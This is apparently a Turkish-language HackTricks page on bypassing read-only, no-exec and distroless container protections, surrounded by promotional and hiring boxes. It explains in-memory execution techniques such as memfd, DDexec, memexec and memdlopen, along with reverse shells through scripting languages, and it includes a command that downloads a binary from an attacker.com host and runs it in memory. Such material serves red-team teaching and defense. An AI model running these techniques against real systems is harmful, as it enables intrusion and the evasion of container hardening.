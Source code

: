 # FS korumalarını atlatma: salt okunur / no-exec / Distroless

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünleri**]'ni edinin (https://peass.creator-spring.com)
* [**The PEASS Ailesi**]'ni keşfedin (https://opensea.io/collection/the-peass-family), özel [**NFT'lerimiz**]'in koleksiyonu
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**]'e (https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**]'a (https://github.com/carlospolop/hacktricks-cloud) destek olun.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri**ne ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha detaylı açıklanmış şekilde bulabilirsiniz:

* [**DEF CON 31 - Gizlilik ve Kaçınma için Linux Bellek Manipülasyonu Keşfi**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ve bellek içi dlopen() ile Gizli sızıntılar - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## salt okunur / no-exec senaryosu

Özellikle konteynerlerde **salt okunur (ro) dosya sistemi koruması** ile donatılmış Linux makineleri bulmak artık daha yaygın hale gelmektedir. Bu, salt okunur dosya sistemiyle bir konteyner çalıştırmak için `securitycontext` içinde **`readOnlyRootFilesystem: true`** ayarlamak kadar kolaydır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi salt okunur olarak bağlanmış olsa bile, **`/dev/shm`** hala yazılabilir olacaktır, bu yüzden diske bir şey yazamayacağımızı düşünmek yanıltıcı olacaktır. Bununla birlikte, bu klasör **no-exec koruması ile bağlanacaktır**, bu nedenle buraya bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım bakış açısından, bu, sistemde zaten olmayan (arka kapılar veya `kubectl` gibi) ikili dosyaları indirip çalıştırmayı **karmaşık hale getirir**.
{% endhint %}

## En Kolay Atlatma: Betikler

İkili dosyaları bahsettiğimi unutmayın, **yürütülebilir herhangi bir betik**i, yorumlayıcının makinede olması koşuluyla yürütebilirsiniz, örneğin `sh` mevcutsa bir **kabuk betiği** veya `python` yüklüyse bir **python betiği**.

Ancak, bu, ikili arka kapınızı veya çalıştırmanız gerekebilecek diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Atlatmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu yapmanın en iyi yolu, **bellekten çalıştırmaktır**, çünkü **korumalar orada uygulanmaz**.

### FD + exec sistem çağrısı atlatması

Makinede **Python**, **Perl** veya **Ruby** gibi güçlü betik motorlarına sahipseniz, ikili dosyayı bellekten çalıştırmak için indirebilir, onu bir bellek dosya tanımlayıcısında saklayabilirsiniz (`create_memfd` sistem çağrısı), bu korumalar tarafından korunmayacak ve ardından bir **`exec` sistem çağrısı** yaparak **çalıştırılacak dosya olarak fd'yi belirtebilirsiniz**.

Bunun için kolayca [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kullanabilirsiniz. Bir ikili dosya geçirerek, onu **b64 kodlanmış ve şifrelenmiş** bir şekilde içeren bir betik oluşturacak ve `create_memfd` sistem çağrısını çağırarak oluşturulan bir **fd** içinde **çözümlemek ve sıkıştırmak** için talimatlarla birlikte belirtilen dilde bir betik oluşturacaktır.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer betik dillerinde çalışmaz çünkü bunlar bir betikten **ham sistem çağrıları** yapmak için herhangi bir **varsayılan yol**a sahip değillerdir, bu nedenle `create_memfd`yi çağırmak ve ikili dosyayı saklamak için **bellek fd** oluşturulamaz.

Ayrıca, `/dev/shm` içinde bir dosya ile **düzenli bir fd** oluşturmak çalışmayacaktır, çünkü **no-exec koruması** uygulanacağından çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec), kendi işlemizin **`/proc/self/mem`**'ini üzerine yazarak işlemimizin belleğini **değiştirmenizi** sağlayan bir tekniktir.

Bu nedenle, işlem tarafından yürütülen derleme kodunu **kontrol ederek**, bir **shellcode** yazabilir ve işlemi **herhangi bir keyfi kodu çalıştırmak üzere "mutasyona uğratabilirsiniz**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode**'unuzu yüklemenize ve **çalıştırmanıza** veya **bellekten herhangi bir ikili dosyayı çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec), DDexec'in doğal bir sonraki adımıdır. Herhangi bir **farklı ikili dosyayı çalıştırmak istediğinizde DDexec'i yeniden başlatmanıza gerek kalmadan, sadece memexec shellcode'unu DDexec tekniği aracılığıyla çalıştırabilir ve ardından **bu deamon ile iletişim kurarak yüklemek ve çalıştırmak için yeni ikili dosyaları geçirebilirsiniz**.

**Memexec'i kullanarak PHP ters kabuk'tan ikili dosyaları çalıştırmak için bir örnek** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulunabilir.

### Memdlopen

DDexec'e benzer bir amaçla, [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, daha sonra bunları çalıştırmak için belleğe ikili dosyaları yüklemenin **daha kolay bir yolunu** sağlar. Bağımlılıkları olan ikili dosyaları bile yüklemeyi mümkün kılabilir.

## Distroless Atlatma

### Distroless Nedir

Distroless konteynerler, yalnızca belirli bir uygulamayı veya hizmeti çalıştırmak için gerekli olan **çıplak minimum bileşenleri** içerir; kütüphaneler ve çalışma zamanı bağımlılıkları gibi, ancak bir paket yöneticisi, kabuk veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, gereksiz bileşenleri ortadan kaldırarak konteynerlerin **saldırı yüzeyini azaltmak** ve sömürülebilecek güvenlik açıklarının sayısını en aza indirmektir.

### Ters Kabuk

Distroless konteynerde genellikle **`sh` veya `bash`** gibi düzenli bir kabuk bulamayabilirsiniz. Ayrıca `ls`, `whoami`, `id` gibi ikili dosyaları da bulamayacaksınız... genellikle bir sistemde çalıştırdığınız her şeyi bulamazsınız.

{% hint style="warning" %}
Bu nedenle, genellikle yaptığınız gibi bir **ters kabuk** alamayacak veya sistemde **numaralandıramayacaksınız**.
{% endhint %}

Ancak, ele geçirilmiş bir konteyner örneğinde flask web çalışıyorsa, o zaman python yüklüdür ve bu nedenle bir **Python ters kabuk** alabilirsiniz. Node çalışıyorsa, bir Node ters kabuk alabilirsiniz ve aynı şey çoğu **betik dili** için geçerlidir.

{% hint style="success" %}
Betik dili kullanarak dilin yeteneklerini kullanarak sistemde **numaralandırabilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters kabuğunuzu kullanarak dosya sistemine **ikili dosyalarınızı yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde genellikle bu korumalar bulunur, ancak bunları atlatmak için **önceki bellek yürütme tekniklerini kullanabilirsiniz**.
{% endhint %}

**RCE zafiyetlerini kullanarak bazı betik dillerinden ters kabuklar almak ve bellekten ikili dosyaları çalıştırmak için örnekler** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulunabilir.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek veya HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github depolarına PR'lar göndererek paylaşın.

</details>
